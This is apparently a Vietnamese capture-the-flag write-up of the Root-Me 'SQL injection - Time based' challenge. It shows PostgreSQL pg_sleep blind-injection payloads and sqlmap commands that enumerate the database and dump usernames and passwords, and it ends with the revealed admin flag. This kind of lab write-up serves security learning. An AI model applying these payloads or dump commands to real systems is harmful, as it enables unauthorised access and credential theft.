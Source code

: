 # root-me Write-ups

## Index

[SQL injection - Time based](#sql-injection---time-based)

## SQL injection - Time based

![image](https://user-images.githubusercontent.com/80137840/218170737-11260763-b9e0-4eb4-ae1d-dde60516ab43.png)

Start the challenge, ta thấy 1 trang web hiển thị form Login 

![image](https://user-images.githubusercontent.com/80137840/218172357-91eb40d7-0162-49e2-87cb-ea39f6b88e19.png)

Ngoài ra còn có trang hiển thị danh sách member có trong bài lab này

![image](https://user-images.githubusercontent.com/80137840/218172447-a6d9ffd1-eda4-499e-b871-77768fb6e283.png)

Vì bài lab yêu cầu lấy được password của **admin** nên ta thử truy cập vào member **admin** có ID=1

![image](https://user-images.githubusercontent.com/80137840/218172532-3941136f-4aba-4621-9f3d-6e8a29511814.png)

Trang web thông báo ta cần Login để xem profile của member này. Để ý trên thanh URL, ta thấy rằng các param truy vấn `action=member` và `member=1` được gửi tới server qua phương thức GET để yêu cầu truy cập tới trang member có ID=1. Đây chính là nơi ta có thể tấn công SQL injection.

Thử fuzz 1 số payload Time delay SQLi của các csdl Oracle, SQL Server, PostgreSQL, MySQL, ta tìm thấy payload `;SELECT pg_sleep(10)-- -` của PostgreSQL cho ta thấy rõ ràng thời gian response bị delay hơn so với các payload khác

![image](https://user-images.githubusercontent.com/80137840/218178393-6408b101-7981-48c2-af81-f8ea389f0909.png)

Như vậy, ta sẽ sử dụng csdl PostgreSQL thực hiện các câu SQL query để truy xuất ra password.

Đến đây ta cần phải tìm ra độ dài và tên các tables, columns và từng entry dữ liệu trong các cột username, password bằng một số payload như sau:

```
;select case when (select length(table_name) from information_schema.tables limit 1 offset §0§)=§1§ then pg_sleep(10) else pg_sleep(0) end--
;select case when substr((select table_name from information_schema.tables limit 1 offset 0),§1§,1)='§a§' then pg_sleep(10) else pg_sleep(0) end--

;select case when (select length(column_name) from information_schema.columns limit 1 offset §1§)=§1§ then pg_sleep(10) else pg_sleep(0) end--
;select case when substr((select column_name from information_schema.columns limit 1 offset 1),§1§,1)=chr(§97§) then pg_sleep(10) else pg_sleep(0) end--

;select case when (select length(username) from users limit 1 offset §0§)=§13§ then pg_sleep(10) else pg_sleep(0) end--
;select case when substr((select username from users limit 1 offset 0),§1§,1)='§a§' then pg_sleep(10) else pg_sleep(0) end--

;select case when (select length(password) from users limit 1 offset §0§)=§13§ then pg_sleep(10) else pg_sleep(0) end--
;select case when substr((select password from users limit 1 offset 0),§1§,1)=chr(§97§) then pg_sleep(10) else pg_sleep(0) end--
```

Tuy nhiên để làm ra các bước này tốn rất nhiều thời gian, nên ta sẽ sử dụng công cụ tự động **sqlmap** để tìm các tables, columns và từng entry dữ liệu trong các cột username, password.

Trước tiên ta kiểm tra xem trang member profile có bị dính SQLi hay không bằng lệnh:

`sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --cookie="158e0ed062421b049394d631da3caf6b" --batch`

Với các options:
- -u : chỉ định target URL
- --cookie : giá trị của HTTP Cookie header
- --batch : sử dụng những tùy chọn mặc định khi hỏi người dùng

![image](https://user-images.githubusercontent.com/80137840/218233144-38ac14c7-8583-4b92-90d6-daf8294b6fed.png)

Kết quả trả về csdl PostgreSQL và payload có thể inject được đó là `action=member&member=1;SELECT PG_SLEEP(5)--`

Tiếp theo, ta sẽ liệt kê các database có trong trang web bằng lệnh:

`sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --cookie="158e0ed062421b049394d631da3caf6b" --batch --dbs`

Với các options:
- --dbs : dùng để liệt kê các database

![image](https://user-images.githubusercontent.com/80137840/218233811-ee043672-6f61-42c7-a54c-aa4e7d278a3b.png)

Ta tìm được 1 database là `public`

Tiếp theo, liệt kê các tables có trong databse bằng lệnh:

`sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --cookie="158e0ed062421b049394d631da3caf6b" -D public --batch --tables`

Với các options:
- -D : chỉ định tên databse
- --tables : dùng để liệt kê các tables có trong databse

![image](https://user-images.githubusercontent.com/80137840/218233939-2e307bc9-8bbc-48eb-8e4a-c0b6df6645a1.png)

Tìm được 1 table là `users`

Tiếp tục liệt kê các columns có trong table **users** bằng lệnh:

`sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --cookie="158e0ed062421b049394d631da3caf6b" -D public -T users --batch --columns`

Với các options:
- -T : chỉ định tên table
- --columns : dùng để liệt kê các columns có trong table

![image](https://user-images.githubusercontent.com/80137840/218234028-ad882cc8-ac3c-4cf2-9920-772d7b121d44.png)

Ta tìm được 1 số columns trong bảng **users**, trong số các cột này thì có 2 cột username, password là có thể chứa thông tin hữu ích cho việc Login.

Cuối cùng, ta dump các giá trị trong 2 cột username,password trong table **users** bằng lệnh:

`sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --cookie="158e0ed062421b049394d631da3caf6b" -D public -T users -C username,password --dump`

Với các options:
- -C : chỉ định tên column, nhiều column thì cách nhau bởi dấu phẩy (,)
- --dump : dump các entries dữ liệu trong cột, bảng

![image](https://user-images.githubusercontent.com/80137840/218234250-3ba53048-eb13-43a4-830b-59201b8547d2.png)

Nhận được username, password của các user có trong csdl của trang web.

Tiến hành submit password của **admin** là `T!m3B@s3DSQL!`

![image](https://user-images.githubusercontent.com/80137840/218234346-c04fbf82-9ca4-487e-92a2-f77b23ba16d0.png)

Done!!!
